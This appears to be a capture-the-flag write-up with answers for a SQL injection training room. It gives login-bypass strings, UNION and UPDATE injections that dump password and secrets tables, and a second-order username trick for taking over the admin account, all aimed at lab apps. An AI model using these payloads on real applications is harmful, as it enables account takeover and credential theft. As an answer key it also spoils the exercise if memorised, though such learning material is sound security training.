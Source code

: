 ## Taks 1 
### SQL Injection 1: Input Box Non-String
* Answer : `1 or 1=1-- - `

### SQL Injection 2: Input Box String
* **Description** : *This challenge uses the same query as in the previous challenge. However, the parameter expects a string instead of an integer, as can be seen here:*
* Answer : `1' or '1'='1'-- -`
### SQL Injection 3 URL : 
* **Description** : *Here, the SQL query is the same as the previous one:* `SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='10' AND password='ce5ca67...'`
* Answer : `' or 1=1-- -`
### SQL injection ; 4 POST :
* **Description** : *When submitting the login form for this challenge, it uses the HTTP POST method. It is possible to either remove/disable the JavaScript validating the login form or submit a valid request and intercept it with a proxy tool such as Burp Suite and modify it:*
* Answer : `1' or 1=1--`
### SQL Injection 5: UPDATE Statement
* **Description** :* Log in to the "SQL Injection 5: UPDATE Statement" challenge and exploit the vulnerable profile page to find the flag. The credentials that can be used are:*
* profileID: `10`
* password:`toor`
* **FInd Database Version** : `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='`
* **Final payload to find FLAG** : `',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email=''`
## Task 2: Track: Vulnerable Startup
## Broken Authentication
* **Description** : *The goal of this challenge is to find a way to bypass  the authentication to retrieve the flag.*
* **Pyload** : `' or 1=1-- -`
## Broken Authentication 2
* **Description** : *Find a way to abuse the login form to dump all the passwords in the database to retrieve the flag without using blind injection.*
* Python Script to decode session cookie: git clone https://github.com/noraj/flask-session-cookie-manager.git && cd flask-session-cookie-manager
* **Payload** : `' UNION SELECT 1,group_concat(password) FROM users-- -`
## Broken Authentication 3: Blind Injection
* **Description** : *This challenge has the same vulnerability as the previous one. However, it is no longer possible to extract data from the Flask session cookie or via the username display. The login form still has the same vulnerability, but this time the goal is to abuse the login form with blind SQL injection to extract the admin's password.*
* Payload : use sqlmap for this challeneg
## Vulnerable Notes
* **Description** : *Here, the previous vulnerabilities have been fixed, and the login form is no longer vulnerable to SQL injection. The team has added a new note function, allowing users to add notes on their page. The goal of this challenge is to find the vulnerability and dump the database to find the flag.*
* payload : '  `union select 1,group_concat(password) from users'`
## Change Password
* **Description** : *For this challenge, the vulnerability on the note page has been fixed. A new change password function has been added to the application, so the users can now change their password by navigating to the Profile page. The new function is vulnerable to SQL injection because the UPDATE statement concatenates the username directly into the SQL query, as can be seen below. The goal here is to exploit the vulnerable function to gain access to the admin's account.*
* Answer : Craete a user with this username admin'-- - then go to change password page chnage the password anything then login to admin account .
## Book Title 
* **Description** : *A new function has been added to the page, and it is now possible to search books in the database. The new search function is vulnerable to SQL injection because it concatenates the user input directly into the SQL statement. The goal of the task is to abuse this vulnerability to find the hidden flag.*
* Payload : ') union select 1,group_concat(username),group_concat(password),4 from users-- -') union select 1,group_concat(username),group_concat(password),4 from users-- -
